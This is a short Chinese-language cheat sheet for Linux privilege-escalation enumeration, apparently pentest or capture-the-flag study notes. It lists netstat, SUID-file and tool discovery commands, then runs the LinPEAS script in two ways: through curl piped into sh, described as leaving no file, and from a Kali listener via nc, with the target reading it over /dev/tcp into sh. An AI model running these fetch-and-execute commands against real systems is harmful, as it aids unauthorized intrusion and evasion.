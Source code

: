 

netstat -a 显示所有监听的端口

netstat -l

netstat -au / netstat -at



find / -type f -perm -u=s 2>/dev/null



which awk perl python vim find wget 2>/dev/null 显示安装的文件



cat /etc/fstab 显示未挂载的磁盘



使用Linpeas 自动枚举工具

curl -L http://www.......... | sh 直接在官网下载数据后执行，不留有文件

kali：sudo nc -lvnp 3333 < Linepeas.sh

靶机：cat < /dev/tcp/kali地址/3333 | sh













